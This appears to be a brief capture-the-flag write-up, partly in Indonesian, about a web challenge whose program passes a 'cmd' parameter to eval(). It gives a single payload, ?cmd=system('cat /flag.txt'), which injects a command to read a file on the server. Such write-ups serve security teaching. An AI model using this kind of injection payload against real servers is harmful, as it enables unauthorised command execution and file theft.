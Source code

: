 # Remote Code Execution | Web Hacking

## Solution
- Program menerima argument `cmd` untuk di `eval()`
- Read flag: ?cmd=system('cat /flag.txt');